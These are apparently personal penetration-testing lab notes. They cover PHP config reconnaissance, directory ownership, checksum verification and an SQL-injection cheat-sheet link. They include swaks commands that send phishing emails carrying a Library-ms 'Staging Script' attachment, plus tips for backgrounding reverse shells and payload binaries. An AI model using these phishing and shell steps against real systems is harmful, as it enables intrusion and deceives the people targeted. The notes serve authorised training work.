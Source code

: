 Look for the document root, as it will tell you the directory the website is working out of. Also, look at "disable_functions" as it will tell you what functions you're allowed to run in PHP. There may be information about a user by way of '/home' or 'C:\Users' directory

 #### Mark Yourself as the Owner of Current Directory

 This is more for ease of use, when you know that the files in this directory could be compromised without you worrying. 

```bash
sudo chown -R username:username ./
```

#### Probably the best Cheat Sheet I've Found

"https://cheatsheet.haax.fr/web-pentest/injections/server-side-injections/sql/" 


#### Swaks

This didn't work without the '@' in front of the attachment.

```bash
sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.196.189 --body body.txt --header "Subject: Staging Script" -ap

sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

#### Verify Checksum

Download the software, then echo the copied checksum along with the filename of the installer into a file, then use the sha256sum -c command:

```bash
kali@kali:~$ cd ~/Downloads

kali@kali:~/Downloads$ echo "4987776fef98bb2a72515abc0529e90572778b1d7aeeb1939179ff1f4de1440d Nessus-10.5.0-debian10_amd64.deb" > sha256sum_nessus

kali@kali:~/Downloads$ sha256sum -c sha256sum_nessus
Nessus-10.5.0-debian10_amd64.deb: OK
```

#### Background a Payload, Shell, or Process

Let's say that you're executing a reverse shell (from a reverse shell), and you don't want that shell to just hang there, simply append an '&' to the end of your command and it will background the reverse shell process:

```bash
#Linux
./binary444&
```

```bash
#Windows
Start-Process -NoNewWindow .\binary80.exe
```
